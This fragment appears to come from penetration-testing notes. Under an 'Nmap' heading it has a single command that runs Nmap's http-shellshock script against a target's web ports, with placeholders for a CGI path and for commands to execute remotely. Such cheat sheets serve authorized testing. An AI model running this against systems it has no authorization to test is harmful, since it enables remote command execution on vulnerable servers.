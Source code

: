 # Nmap

`$ nmap -p 80,443 -Pn -n --script=http-shellshock --script-args="http-shellshock.uri=/path/to/uri/file.cgi,cmd=<commands>" <IP>`
